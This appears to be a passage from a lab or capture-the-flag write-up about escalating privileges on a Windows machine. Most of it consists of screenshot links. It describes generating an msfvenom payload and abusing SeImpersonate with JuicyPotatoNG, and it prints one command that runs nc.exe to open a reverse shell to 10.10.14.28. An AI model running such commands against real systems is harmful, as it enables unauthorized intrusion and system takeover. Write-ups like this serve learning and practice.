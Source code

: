 ![scrhttps://miro.medium.com/v2/resize:fit:517/1*Qgvz35MvCKO22KGcdV8H1Q.png)

Running `icacls` on the development folder shows that `c.bum` has write access

![](https://miro.medium.com/v2/resize:fit:627/1*Nem0nr5eM8rfnPDXssc9Ig.png)

I tried executing nc.exe to get a reverse shell but it wasn’t working for some reason so instead I generated a msfvenom payload

![](https://miro.medium.com/v2/resize:fit:700/0*sWDANN7-ktSJUYt5)

Transfer it and execute it

![](https://miro.medium.com/v2/resize:fit:700/0*k42wnTiwx4VJ1i35)

![](https://miro.medium.com/v2/resize:fit:604/0*lLyEUUCFcaXfPYEP)

On checking privileges of `iis appol` , `SeImpersonate` was enabled

![](https://miro.medium.com/v2/resize:fit:700/0*8GxNvtD46jSmzl8S)

To abuse this, we can use `[JuicyPotato-ng](https://github.com/antonioCoco/JuicyPotatoNG)` to get a system shell

.\potatoe.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Windows\Temp\nc.exe 10.10.14.28 6666 -e cmd.exe"

![](https://miro.medium.com/v2/resize:fit:700/0*3MWO3iIITlgYl9ed)

![](https://miro.medium.com/v2/resize:fit:535/0*lELdQF1NnFfZ6dgZ)
